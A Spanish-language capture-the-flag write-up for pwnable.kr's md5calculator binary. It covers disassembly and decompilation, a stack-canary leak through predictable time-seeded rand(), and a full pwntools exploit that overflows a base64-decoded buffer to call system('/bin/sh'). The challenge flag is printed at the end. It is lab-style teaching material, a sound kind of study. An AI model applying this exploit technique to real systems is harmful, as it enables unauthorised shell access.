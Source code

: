 # md5calculator

![md5 calculator](https://github.com/user-attachments/assets/47511071-9c25-460b-85f0-30650a870b07)

```
 ./md5calculator
- Welcome to the free MD5 calculating service -
Are you human? input captcha : 378101604
```

Si vamos a `my_hash` nos enteramos que el numero que devuelve es el resultado de una operacion con numeros aleatorios obtenidos con `rand()` y el stack_canary!:

Especificamente esta parte obtenida con gdb:
```
   0x08048f1c <+68>:    mov    eax,DWORD PTR [ebp-0x34]
   0x08048f1f <+71>:    add    eax,0x4
   0x08048f22 <+74>:    mov    edx,DWORD PTR [eax]
   0x08048f24 <+76>:    mov    eax,DWORD PTR [ebp-0x34]
   0x08048f27 <+79>:    add    eax,0x14
   0x08048f2a <+82>:    mov    eax,DWORD PTR [eax]
   0x08048f2c <+84>:    add    eax,edx
   0x08048f2e <+86>:    add    DWORD PTR [ebp-0x30],eax
   0x08048f31 <+89>:    mov    eax,DWORD PTR [ebp-0x34]
   0x08048f34 <+92>:    add    eax,0x8
   0x08048f37 <+95>:    mov    edx,DWORD PTR [eax]
   0x08048f39 <+97>:    mov    eax,DWORD PTR [ebp-0x34]
   0x08048f3c <+100>:   add    eax,0xc
   0x08048f3f <+103>:   mov    eax,DWORD PTR [eax]
   0x08048f41 <+105>:   mov    ecx,edx
   0x08048f43 <+107>:   sub    ecx,eax
   0x08048f45 <+109>:   mov    eax,ecx
   0x08048f47 <+111>:   add    DWORD PTR [ebp-0x30],eax
   0x08048f4a <+114>:   mov    eax,DWORD PTR [ebp-0x34]
   0x08048f4d <+117>:   add    eax,0x1c
   0x08048f50 <+120>:   mov    edx,DWORD PTR [eax]
   0x08048f52 <+122>:   mov    eax,DWORD PTR [ebp-0x34]
   0x08048f55 <+125>:   add    eax,0x20
=> 0x08048f58 <+128>:   mov    eax,DWORD PTR [eax]
   0x08048f5a <+130>:   add    eax,edx
   0x08048f5c <+132>:   add    DWORD PTR [ebp-0x30],eax
   0x08048f5f <+135>:   mov    eax,DWORD PTR [ebp-0x34]
   0x08048f62 <+138>:   add    eax,0x10
   0x08048f65 <+141>:   mov    edx,DWORD PTR [eax]
   0x08048f67 <+143>:   mov    eax,DWORD PTR [ebp-0x34]
   0x08048f6a <+146>:   add    eax,0x18
   0x08048f6d <+149>:   mov    eax,DWORD PTR [eax]
   0x08048f6f <+151>:   mov    ecx,edx
   0x08048f71 <+153>:   sub    ecx,eax
   0x08048f73 <+155>:   mov    eax,ecx
   0x08048f75 <+157>:   add    DWORD PTR [ebp-0x30],eax
   0x08048f78 <+160>:   mov    eax,DWORD PTR [ebp-0x30]
```

Se puede entender como:
```
[ebp-0x34] es un puntero al array en [ebp-0x2c] como sabemos de:

0x08048ee5 <+13>:    mov    DWORD PTR [ebp-0xc],eax
0x08048ee8 <+16>:    xor    eax,eax
0x08048eea <+18>:    lea    eax,[ebp-0x2c]

Llamemos "array" a [ebp-0x2c]:

+ 68  eax = &array[0]
+ 71  eax = &array[1]
+ 74  edx = array[1]
+ 76  eax = &array[0]
+ 79  eax = &array[5]
+ 82  eax = array[5]
+ 84  eax = array[1] + array[5]
+ 86  [ebp-0x30] = array[1] + array[5]
+ 89  eax = &array[0]
+ 92  eax = &array[2]
+ 95  edx = array[2]
+ 97  eax = &array[0]
+ 100 eax = &array[3]
+ 103 eax = array[3]
+ 105 ecx = array[2]
+ 107 ecx = array[2] - array[3]
+ 109 eax = array[2] - array[3]
+ 111 [ebp-0x30] =  array[1] + array[5] + (array[2] - array[3])
+ 114 eax = &array[0]
+ 117 eax = &array[7]
+ 120 edx = array[7]
+ 122 eax = &array[0]
+ 125 eax = &[ebp-0xc]
+ 128 eax = [ebp-0xc]
+ 130 eax = [ebp-0xc] + array[7]
+ 132 [ebp-0x30] =  array[1] + array[5] + (array[2] - array[3]) + [ebp-0xc] + array[7] 
+ 135 eax = &array[0]
+ 138 eax = &array[3]
+ 141 edx = array[4]
+ 143 eax = &array[0]
+ 146 eax = &array[6]
+ 149 eax = array[6]
+ 151 ecx = array[4]
+ 153 ecx = array[4] - array[6]
+ 155 eax = array[4] - array[6]
+ 157 eax = array[1] + array[5] + (array[2] - array[3]) + [ebp-0xc] + array[7] + (array[4] - array[6])
+ 160 return eax

Como puede verse aqui:
   0x08048edf <+7>:     mov    eax,gs:0x14
   0x08048ee5 <+13>:    mov    DWORD PTR [ebp-0xc],eax

[ebp-0xc] es el stack canary o stack cookie
```

En el decompilador de ghidra se ve mas claro:
``` C
/* WARNING: Restarted to delay deadcode elimination for space : stack */

int my_hash(void)

{
  int iVar1;
  int in_GS_OFFSET;
  int local_3c;
  int local_30 [8];
  int stack_cookie;
  
  stack_cookie = *(int *)(in_GS_OFFSET + 0x14);
  for (local_3c = 0; local_3c < 8; local_3c = local_3c + 1) {
    iVar1 = rand();
    local_30[local_3c] = iVar1;
  }
  if (stack_cookie != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return local_30[5] + local_30[1] + (local_30[2] - local_30[3]) +  stack_cookie + local_30[7] +
         (local_30[4] - local_30[6]);
}
```

Los numeros aleatorios generados con `rand()` con una semilla basada en tiempo en C se pueden reproducir si tomamos el tiempo actual dentro del mismo segundo en que se tomó en el programa.

Podemos extraer el canario y entonces, dado que el binario no tiene PIE hacer ROP para invocar a `system("/bin.sh")`.

En la funcion `process_hash` se toma la entrada de usuario y se almacenan 0x400 bytes en el buffer global `g_buf`, luego se pasa a ` Base64Decode` y el resultado se almacena en un buffer local `buffer[128]`.

Podemos codificar nuestra carga util en base64 (offset + ROP) y pasarsela como entrada, desbordar el buffer y controlar el flujo del programa.

Para invocar una shell necesitamos un puntero a "/bin/sh\x00". Podemos luego de la carga util en base64 enviar la cadena y pasarle como argumento a `system` `g_buf` + offset a la cadena.

![wall](https://github.com/user-attachments/assets/0539d26b-595f-4b44-b17b-aaf1a0974c09)

``` python
#!/usr/bin/env python3

from pwn import *
import time
import base64
from ctypes import CDLL

elf = ELF("./md5calculator")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")
#ld = ELF("./")

context.binary = elf
context.terminal = ['tmux', 'splitw', '-hp', '70']
#context.log_level = "debug"
gs = '''
break *0x0804902b
break *0x0804908e
'''

domain= "pwnable.kr"
port = 9002

def start():
    if args.REMOTE:
        return remote(domain, port)
    if args.GDB:
        return gdb.debug([elf.path], gdbscript=gs)
    else:
        return process([elf.path])
r = start()

#========= exploit here ===================

# -- Grab the stack cookie --
RAND_MAX = 2**31-1
seed = int(time.time())
so = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
so.srand(seed)

numbers = []
for _ in range(8):
    numbers.append(so.rand() % (RAND_MAX + 1))

r.recvuntil(b"Are you human? input captcha : ")
sum = int(r.recvline().strip())

stack_cookie = sum - numbers[5] - numbers[1] - (numbers[2] - numbers[3]) - numbers[7] - (numbers[4] - numbers[6])

log.success("Predicted stack_cookie: {}".format(hex(stack_cookie & 0xFFFFFFFF)))

r.sendline(str(sum).encode())

# -- system("/bin/sh")
payload = b"A"*512 + p32(stack_cookie & 0xFFFFFFFF) + b"B"*12
payload += p32(elf.sym.system) + p32(0) + p32(0x0804b0e0 + 720)
payload = base64.b64encode(payload)

payload += b"/bin/sh\x00"

r.sendline(payload)
r.interactive()
```

`M3ssing_w1th_st4ck_Pr0tector`
